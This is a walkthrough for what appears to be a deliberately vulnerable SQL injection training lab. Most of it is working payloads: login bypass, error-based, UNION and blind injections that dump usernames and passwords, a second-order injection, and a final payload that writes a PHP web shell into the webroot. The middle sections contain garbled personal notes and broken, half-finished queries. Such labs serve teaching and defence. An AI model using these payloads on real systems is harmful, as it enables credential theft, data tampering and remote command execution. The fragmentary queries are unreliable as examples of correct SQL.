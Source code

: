 # Walkthrough document
This document explains the different attacks that can be done on this setup

## Registration
Use the register.php to create users

## Login bypass attack
Bypassing login using boolean expressions

1. **Page:** login1.php
   **Attack:**

```
- ' OR 1=1 -- //
- admin' OR 1=1 -- //
```

2. **Page:** login2.php
    **Attack:**

```
- admin') -- //  
```

## Verbose SQL Error based Injection
Forcing error conditions to reveal and extract data
1. **Page:** login1.php
   **Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //
- ' or 1 in (select password from users where username = 'admin') -- //
```

## Extracting data using UNION queries
Using a pre existing SQL select query to fetch additional data from the DB
1. **Page:** searchproducts.php
   **Attack:**

```
- ' order by 5 -- //
- ' union select 1,2,3,4,5 -- //
- ' union select null, null, database(), user(), @@version -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
- ' union select null, id, username, password, fname from users -- //
```

rom users limit 0,100)a-

' union select null, null, null, null, update products set products.price=88999 from sqlitraining.products -- //
update sqlitrainingproducts set price='88999' where product_name=pillows;
 ?user=admin' and substring((select table_name from information_schema.columns where column_name = 'ganteng' LIMIT 1),1,1)>'a' -- //

' union select null, null, null, null, and




## Second order SQL injection
User input is stored and reused as is in a different function that has no protection
1. **Page:** secondorder_register.php
**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //

- navigate to secondorder_changepass.php
```


' or 2 in (select password from users where id=67) -- //
UPDATE `users` SET `password` = MD5('admin') WHERE `users`.`id` = 1;


' or 2 in (INSERT INTO users VALUES (NULL, 'maulana', 'ganteng', 'ganteng', 'ganteng') -- //
<!-- INSERT INTO `users` (`id`, `username`, `password`, `fname`, `description`) VALUES (NULL, 'maulana', 'ganteng', 'ganteng', 'ganteng'); -->


## Blind SQL injection
1. **Page:** blindsqli.php
**Attack:**

```
- ?user=1' and 1=1 -- //
- ?user=admin' and substring((select table_name from information_schema.columns where column_name = 'ganteng' LIMIT 1),1,1)>'a' -- //
admin' and substring((select table_name from information_schema.columns where column_name = 'fname' LIMIT 1),1,1)>'' -- //

- ?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //

// my methode
1' union select 1,2,3,4,5 -- //
1' union select 1,2,3,4,database() -- //
  version();
  database();
  1' union select 1,2,3,4,table_name+from+information_schema.tables -- //
  1' union select 1,2,3,4,group_concat(table_name)+from+information_schema.tables+where+table_schema=database() -- //
  1' union select 1,2,3,4,group_concat(column_name)+from+information_schema.columns+where+table_name=users -- //
  1' union select 1,2,3,4,group_concat(column_name)+from+information_schema.columns+where+table_name=0x7573657273 -- //
  1' union select 1,2,3,4,group_concat(username,0x3a,password)+from sqlitraining.users -- //

  user : 75 73 65 72 73

  1' union select 1,2,3,4,concat_ws(0x3a,username, password)+from+users limit 0,10 -- //
  1' union select 1,2,3,4,group_concat(table_name)+from+users limit 0,10 -- //



 1' union select 1,2,3,4,group_concat(username,0x3a,password)+from sqlitraining.users -- //

,group_concat(username,0x3a,password,0x3a,is_admin,0x3a)+from sqlitrainingctf.users -- //
tabel :
https://www.rapidtables.com/code/text/ascii-table.html




```

## OS interaction
1. **Page:** os_sqli.php
**Attack:**

```
- ?user=qqqq' union select null, null, null, '<pre><?php system($_GET[\'cmd\']); ?></pre>', null into outfile '/path/to/webroot/writable/dir/shell.php' -- //
```
